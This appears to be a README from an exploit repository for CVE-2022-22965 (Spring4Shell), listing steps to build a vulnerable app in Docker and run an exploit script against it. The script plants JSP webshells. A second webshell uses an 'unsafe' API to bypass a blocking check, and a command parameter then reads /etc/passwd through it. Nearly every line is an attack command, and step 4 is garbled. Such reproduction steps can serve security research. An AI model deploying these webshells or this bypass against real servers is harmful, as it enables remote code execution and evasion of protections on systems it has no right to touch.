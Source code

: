 1. mvn clean package
2. docker build . -t cve-2022-22965-exploit-bypass-using-unsafe
4. docker run -p 8080:8080 docker build . -t cve-2022-22965-exploit-bypass-using-unsafe
5. curl http://localhost:8080/exploit/greeting
6. python3 -m pip install -r requirements.txt
7. python3 exploit.py --url="http://localhost:8080/exploit/greeting" --dir="webapps/ROOT" --file="reflection"
8. curl "http://localhost:8080/reflection.jsp?cmd=cat%20/etc/passwd" and see that we are blocked
  ![block.png](block.png)
9. Now deploy another webshell that uses unsafe API and escape constructor check;
   `   python3 exploit.py --url="http://localhost:8080/exploit/greeting" --dir="webapps/ROOT" --file="unsafe"
   `
10. curl "http://localhost:8080/unsafe.jsp?cmd=cat%20/etc/passwd" and enjoy the bypass
   ![bypass.png](bypass.png)
